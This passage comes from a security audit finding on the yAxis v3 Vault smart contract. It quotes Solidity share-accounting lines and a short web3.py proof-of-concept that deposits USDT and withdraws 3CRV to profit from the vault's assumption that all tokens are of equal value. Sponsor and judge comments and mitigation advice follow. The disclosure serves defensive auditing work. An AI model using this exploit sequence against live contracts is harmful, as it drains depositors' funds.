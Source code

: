 ```solidity
_shares = _shares.add(_amount);
```

The share is burned at [Vault.sol L217](https://github.com/code-423n4/2021-09-yaxis/blob/main/contracts/v3/Vault.sol#L217)
```solidity
uint256 _amount = (balance().mul(_shares)).div(totalSupply());
```

Here's a sample exploit in web3.py.

```python
deposit_amount = 100000 * 10**6
user = w3.eth.accounts[0]
get_token(usdt, user, deposit_amount)
usdt.functions.approve(vault.address, deposit_amount).transact()
vault.functions.deposit(usdt.address, deposit_amount).transact()
vault.functions.withdrawAll(t3crv.address).transact()
# user can remove liquiditiy and get the profit.
```

#### Tools Used
Hardhat

#### Recommended Mitigation Steps
Given the protocols' scenario, I feel like we can take iearn token's architect as a Ref. [yDdai](https://etherscan.io/address/0x16de59092dAE5CcF4A1E6439D611fd0653f0Bd01#code)

yDai handles multiple tokens (cDai/ aDai/ dydx/ fulcrum). Though four tokens are pretty much the same, the contract still needs to calculate the price of each token.

Or, creating a vault for each token might be an easier quick fix.

**[Haz077 (yAxis) acknowledged](https://github.com/code-423n4/2021-09-yaxis-findings/issues/2)**

**[transferAndCall (yAxis) commented](https://github.com/code-423n4/2021-09-yaxis-findings/issues/2#issuecomment-917660280):**
 > The design of the v3 vaults is to intentionally assume that all allowed tokens are of equal value. I do not see us enabling the 3CRV token in our Vault test, though if we did, that doesn't mean we would in reality. Using a separate vault per token is an architecture we want to avoid.

**[GalloDaSballo (judge) commented](https://github.com/code-423n4/2021-09-yaxis-findings/issues/2#issuecomment-942441532):**
 > Anecdotal example from warden makes sense.
>
> Assuming that 3CRV is worth the same as a stablecoin is in principle very similar to assuming that a swap between each stable on curve will yield a balanced trade
>
> This reminds me of the Single Sided Exposure Exploit that Yearn Suffered, and would recommend mitigating by checking the virtual_price on the 3CRV token

**[GalloDaSballo (judge) commented](https://github.com/code-423n4/2021-09-yaxis-findings/issues/2#issuecomment-942441854):**
 > TODO: Review and check duplicates, need to read yaxis vault code and use cases before can judge this
